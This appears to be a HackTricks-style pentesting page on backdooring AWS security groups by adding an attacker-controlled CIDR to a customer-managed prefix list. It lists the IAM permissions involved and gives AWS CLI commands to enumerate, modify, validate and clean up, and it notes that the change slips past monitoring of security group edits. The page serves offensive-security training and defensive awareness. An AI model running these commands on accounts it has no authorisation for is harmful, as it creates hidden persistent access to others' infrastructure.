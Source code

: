 # AWS - Security Group Backdoor via Managed Prefix Lists

{{#include ../../../../banners/hacktricks-training.md}}

## Summary
Abuse customer-managed Prefix Lists to create a stealthy access path. If a security group (SG) rule references a managed Prefix List, anyone with the ability to modify that list can silently add attacker-controlled CIDRs. Every SG (and potentially Network ACL or VPC endpoint) that references the list immediately allows the new ranges without any visible SG change.

## Impact
- Instant expansion of allowed IP ranges for all SGs referencing the prefix list, bypassing change controls that only monitor SG edits.
- Enables persistent ingress/egress backdoors: keep the malicious CIDR hidden in the prefix list while the SG rule appears unchanged.

## Requirements
- IAM permissions:
  - `ec2:DescribeManagedPrefixLists`
  - `ec2:GetManagedPrefixListEntries`
  - `ec2:ModifyManagedPrefixList`
  - `ec2:DescribeSecurityGroups` / `ec2:DescribeSecurityGroupRules` (to identify attached SGs)
- Optional: `ec2:CreateManagedPrefixList` if creating a new one for testing.
- Environment: At least one SG rule referencing the target customer-managed Prefix List.

## Variables

```bash
REGION=us-east-1
PREFIX_LIST_ID=<pl-xxxxxxxx>
ENTRY_CIDR=<attacker-cidr/32>
DESCRIPTION="Backdoor – allow attacker"
```

## Attack Steps

1) **Enumerate candidate prefix lists and consumers**

```bash
aws ec2 describe-managed-prefix-lists \
  --region "$REGION" \
  --query 'PrefixLists[?OwnerId==`<victim-account-id>`].[PrefixListId,PrefixListName,State,MaxEntries]' \
  --output table

aws ec2 get-managed-prefix-list-entries \
  --prefix-list-id "$PREFIX_LIST_ID" \
  --region "$REGION" \
  --query 'Entries[*].[Cidr,Description]'
```

Use `aws ec2 describe-security-group-rules --filters Name=referenced-prefix-list-id,Values=$PREFIX_LIST_ID` to confirm which SG rules rely on the list.

2) **Add attacker CIDR to the prefix list**

```bash
aws ec2 modify-managed-prefix-list \
  --prefix-list-id "$PREFIX_LIST_ID" \
  --add-entries Cidr="$ENTRY_CIDR",Description="$DESCRIPTION" \
  --region "$REGION"
```

3) **Validate propagation to security groups**

```bash
aws ec2 describe-security-group-rules \
  --region "$REGION" \
  --filters Name=referenced-prefix-list-id,Values="$PREFIX_LIST_ID" \
  --query 'SecurityGroupRules[*].{SG:GroupId,Description:Description}' \
  --output table
```

Traffic from `$ENTRY_CIDR` is now allowed wherever the prefix list is referenced (commonly outbound rules on egress proxies or inbound rules on shared services).

## Evidence
- `get-managed-prefix-list-entries` reflects the attacker CIDR and description.
- `describe-security-group-rules` still shows the original SG rule referencing the prefix list (no SG modification recorded), yet traffic from the new CIDR succeeds.

## Cleanup

```bash
aws ec2 modify-managed-prefix-list \
  --prefix-list-id "$PREFIX_LIST_ID" \
  --remove-entries Cidr="$ENTRY_CIDR" \
  --region "$REGION"
```

{{#include ../../../../banners/hacktricks-training.md}}
